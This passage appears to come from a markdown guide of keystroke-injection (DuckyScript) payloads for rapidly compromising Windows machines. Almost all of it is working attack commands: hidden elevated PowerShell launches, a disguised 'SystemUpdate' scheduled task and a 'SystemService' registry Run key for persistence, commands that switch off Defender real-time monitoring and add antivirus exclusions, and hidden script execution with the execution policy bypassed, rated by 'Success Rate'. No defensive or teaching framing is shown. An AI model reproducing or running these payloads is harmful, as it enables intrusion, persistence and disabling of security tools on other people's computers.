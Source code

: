 ```txt
DELAY 100

# Clean exit
STRING exit
ENTER
```

**Total Time:** 60 seconds
**Success Rate:** Medium-High (depending on security measures)

### Advanced Rapid Access Techniques

#### **1. UAC Bypass Methods**
```txt
# Method 1: Direct elevation
STRING Start-Process powershell -Verb RunAs -WindowStyle Hidden
ENTER
DELAY 300

# Method 2: Scheduled task bypass
STRING cmd /c "schtasks /create /tn 'SystemUpdate' /tr 'powershell.exe -WindowStyle Hidden' /sc onstart /ru System /f"
ENTER
DELAY 200

# Method 3: Registry persistence
STRING New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "SystemService" -Value "powershell.exe -WindowStyle Hidden" -PropertyType String -Force
ENTER
DELAY 100
```

#### **2. Antivirus Evasion**
```txt
# Disable real-time protection
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
DELAY 100

# Add exclusions
STRING Add-MpPreference -ExclusionPath "$env:APPDATA\Microsoft\Windows\Update"
ENTER
DELAY 50
```

#### **3. Process Hiding**
```txt
# Hidden process execution
STRING Start-Process powershell -WindowStyle Hidden -ArgumentList "-ExecutionPolicy Bypass -File `"$env:APPDATA\hidden.ps1`""
ENTER
DELAY 100
```

---